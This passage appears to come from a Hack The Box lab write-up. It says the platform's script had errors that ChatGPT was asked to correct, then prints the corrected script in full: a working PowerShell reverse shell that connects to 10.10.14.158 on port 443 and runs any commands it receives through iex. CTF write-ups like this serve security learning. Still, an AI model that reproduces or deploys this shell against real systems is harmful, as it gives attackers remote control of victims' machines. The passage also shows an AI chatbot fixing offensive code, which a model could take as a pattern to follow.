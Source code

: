 The script given by HTB contains errors, so we asked ChatGPT to correct them:

![](./attachments/Pasted%20image%2020230130125627.png)

The corrected script:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = iex $data 2>&1 | Out-String
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```
